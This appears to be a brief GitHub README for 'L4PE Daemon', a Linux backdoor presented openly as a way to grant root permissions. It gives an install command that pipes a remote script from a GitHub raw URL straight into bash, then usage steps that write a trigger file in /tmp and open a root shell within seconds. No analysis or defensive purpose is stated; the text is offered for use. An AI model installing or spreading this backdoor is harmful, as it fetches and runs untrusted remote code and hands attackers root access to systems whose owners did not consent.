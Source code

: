 # L4PE Daemon
l4pe - Linux Low Level Local Privileges Escalation
Backdoor for grant root permissions
# Installation
`curl https://raw.githubusercontent.com/MnxCool/pwnd/master/web-install.sh | bash -`
# Usage
`echo 1 > /tmp/l4pe.esc`, flood `pwn`
After some time (up to 5 seconds), a bash with root rights will open
